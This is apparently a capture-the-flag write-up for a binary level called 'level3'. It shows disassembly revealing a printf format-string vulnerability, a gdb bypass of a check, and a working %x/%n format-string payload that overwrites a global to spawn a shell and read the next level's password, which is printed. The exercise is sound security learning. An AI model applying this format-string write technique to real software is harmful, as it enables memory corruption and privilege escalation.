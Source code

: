 # Write up

While dissassembling the `level3` file, we notice a comparaison including a memory data content :
```
 80484da:	a1 8c 98 04 08       	mov    eax,ds:0x804988c
 80484df:	83 f8 40             	cmp    eax,0x40
 80484e2:	75 34                	jne    8048518 <v+0x74>
```
The checked value is 64 (40 in hex).
Using gdb we force pass this condition :
```
gdb ./level3
(gdb) break main
(gdb) run
(gdb) set {int}0x804988c = 64
(gdp) continue
Continuing.
test
test
Wait what?!
$ cat /home/user/level4/.pass
cat: /home/user/level4/.pass: Permission denied
```
Which gives us a shell, however we don't have the level4 rights since we're using gdb here.

With further investigation, I notice that the printf use as format the inputted string directly :
```
 80484be:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484c4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484d2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
```
We will then try a Format string exploitation to overwrite this memory value.

As given in the sourced website, we try the `AAAA.%x.%x.%x.%x.` payload first, which gives us :
```
AAAA.200.b7fd1ac0.b7ff37d0.41414141.
```
The forth value is here the AAAA hex ascii value.

We can overwrite the forth %x value to our wanted address with this payload :
```
printf "%b%s" "\x8c\x98\x04\x08" "%x %x %x %x" | ./level3
```
Which `%p` will display `0x804988c`

Note that printf have a `%n` parameter that displays nothing, but store in the given pointer the number of chars already writen.
We currently have 4 + 22 = 26 chars printed, so we will have to edit a bit our payload to reach 64 :
```
(printf "%b%38s%s" "\x8c\x98\x04\x08" "" "%x %x %x %n"; cat) | ./level3
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
Which let us get our flag.

## Sources

https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/
https://man.developpez.com/man3/printf/ (Always RTFM)
